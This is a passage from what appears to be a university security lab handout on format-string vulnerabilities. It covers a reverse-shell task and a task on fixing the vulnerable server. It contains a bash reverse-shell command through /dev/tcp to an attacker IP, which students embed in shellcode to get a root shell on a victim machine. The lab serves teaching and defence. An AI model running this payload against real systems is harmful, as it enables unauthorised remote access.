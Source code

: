You need to modify the shellcode listed in 
Listing~\ref{format:code:shellcode}, so instead of running 
the \texttt{/bin/rm} command using \texttt{bash}, your shellcode runs the 
following command. 
The example assumes that the attacker machine's IP address is \texttt{10.0.2.6}, so you need to
change the IP address in your code:   

\begin{lstlisting}[backgroundcolor=]
/bin/bash -c "/bin/bash -i > /dev/tcp/10.0.2.6/7070 0<&1 2>&1"
\end{lstlisting}

You only need to modify the code between Lines~ and~, so the above
\texttt{"/bin/bash -i ..."} command is executed by the shellcode, instead of the
\texttt{/bin/rm} command. Once you finish the shellcode, you should  construct your format
string, send it over to the victim server as an input. If your attack is successful, your TCP
server should get a callback, and you will get a root shell on the victim machine. Please
provide the evidence of success in your report (including screenshots).



\subsection{Task 8: Fixing the Problem}

Remember the warning message generated by the \texttt{gcc} compiler? Please explain what
it means. Please fix the vulnerability in the server program, and recompile it. 
Does the compiler warning go away? Do your attacks 
still work? You only need to try one of your attacks to see whether it still
works or not. 



\section{Submission}

\seedsubmission


